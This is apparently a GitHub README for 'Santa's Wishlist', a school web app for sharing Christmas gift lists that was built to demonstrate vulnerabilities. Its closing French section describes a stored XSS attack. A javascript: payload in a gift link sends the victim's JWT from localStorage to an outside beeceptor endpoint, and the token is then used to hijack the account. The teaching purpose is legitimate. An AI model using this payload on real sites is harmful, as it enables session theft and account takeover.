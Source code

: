 # 🎅 Santa's Wishlist 🎄
Create and share your Christmas wishlists to your friends to help Santa find what kind of gifts you want !\
⚠️ This project is a school project designed to demonstrate and exploit some web vulnerabilities.

## 🇫🇷 Consigne
Santa's little helper : cette application web permet aux membres d'un groupe de gérer une ou des listes de souhaits pour des cadeaux de Noël, et de choisir dans la liste d'autres personnes ce qu'ils pourront leur offrir (l'application garantissant l'absence de conflits et préservant au maximum la surprise). Différentes améliorations peuvent être imaginées, comme l'organisation d'un événement de type "secret santa", des facilités dans l'interactions avec des sites marchants, l'envoi de messages éventuellement anonymes...

## 👷 Installation
To run the app in a docker, run the following commands from the project's root folder :
```
docker build --file=front/front.dockerfile -t santa-wishlist-front .
docker build --file=back/back.dockerfile -t santa-wishlist-back .
docker-compose -f docker-compose.yml up
```

## 🎁 Functionalities
The user can create an account. When logged in, he can create a new wishlist for himself or see his other wishlists. To sign in, the following information are needed :
- a name
- a surname
- a pseudonym
- a password
- (TBI : email for password recovery. For now : DON'T FORGET YOU PASSWORD !)
- (TBI : a profile picture)

To create a wishlist, the user must give it a name. He then gets a unique link he can share to his friends (TBI : invite through in-website pseudonym). This link must be some kind of a hash to not be easily findable.

On a wishlist the user has created, he can add, edit or remove gifts. A gift is composed of (* = mandatory) :
- a name*
- a description
- a link (to Amazon for example)
- a price
- (TBI : a picture)

When a friend is given a link to a wishlist, he must log in and then gets redirected to the wishlist. He's added to the wishlist and can see all the gifts and other friends. The wishlist is automaticaly added to his wishlists on his profile to be accessed quickly.

On a wishlist, a friend can choose a gift he wants to buy. The gift is then marked as bought and cannot be selected by another friend (TBI : multiple friends should be able to buy the same gift together). The owner of the wishlist cannot see which gifts are already selected.

The owner of a wishlist can delete it at any time.

## 🕸️ Structure
**Main page :** home webpage explaining the concept of the website.

**Sign in :** quick form to create an account on the website.

**Log in :** form to log in. Only the pseudonym and password are needed.

The following pages require the user to be logged in :

**My Wishlists :** see your wishlists and invite some friends with the link. Add, edit or remove gifts or delete the wishlist.

**Friends' Wishlists :** access the wishlists you are invited to and choose some gifts you will buy to them. You can see which gifts are available.


## Scenario d'attaque

L'application est vulnérable aux XSS sur les liens des différents cadeaux : il est possible d'écrire `javascript:alert(1)` pour qu'au clic, une alerte s'affiche.

On joue l'attaque suivante : 

Sopalinge se connecte et crée un nouveau cadeau dans sa wishlist dont le lien contient le code suivant : `javascript:var xhr = new XMLHttpRequest();xhr.open("GET", "http://sopalinge.free.beeceptor.com/" + window.localStorage['santaToken'], false);xhr.send();`

Sopalinge se connecte à son endpoint beeceptor : `http://sopalinge.free.beeceptor.com/`.

Futex se connecte et consulte la wishlist de Sopalinge. Il clique sur le lien malveillant de Sopalinge et ne se rend compte de rien.

Pendant ce temps, Sopalinge récupère une requête sur son endpoint qui contient le token jwt de Futex. Il peut alors se connecter au site et modifier son token par celui de Futex et avoir accès à son compte !
